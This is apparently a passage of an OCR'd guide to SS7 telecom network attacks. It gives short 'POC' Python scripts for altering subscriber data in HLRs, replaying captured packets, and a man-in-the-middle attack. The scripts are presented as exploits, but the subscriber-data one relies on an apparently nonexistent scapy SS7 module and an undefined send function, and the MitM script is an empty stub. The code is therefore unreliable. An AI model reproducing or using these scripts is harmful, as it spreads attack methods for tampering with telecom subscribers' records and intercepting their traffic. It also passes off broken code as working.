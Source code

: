 ### 3.5 Subscriber Data Manipulation
- **Mechanism**: Exploit vulnerabilities to modify subscriber data in HLRs or SCPs.

#### POC Script:
```python
from scapy.layers.ss7 import *

def modify_subscriber_data(imsi, new_data):
    update_data = MAP_UpdateLocation(
        imsi=imsi,
        newData=new_data
    )
    send_ss7(update_data, iface="<interface>")

modify_subscriber_data("<target_imsi>", {"new_field": "new_value"})
```

---

## 4. Advanced Exploitation Techniques

### 4.1 Replay Attacks
- **Mechanism**: Capture and replay legitimate messages to exploit vulnerabilities.

#### POC Script:
```python
from scapy.all import *

def replay_message(captured_pcap):
    packets = rdpcap(captured_pcap)
    for packet in packets:
        send(packet, iface="<interface>", verbose=0)

replay_message("captured_traffic.pcap")
```

### 4.2 Man-in-the-Middle (MitM) Attacks
- **Mechanism**: Intercept and alter messages in transit.

#### POC Script:
```python
from scapy.all import *

def mitm_attack(target_ip):
    # Setup ARP spoofing or similar technique
    # Capture packets and modify as needed
    pass  # Implement your MitM logic here

mitm_attack("<target_ip>")
```

---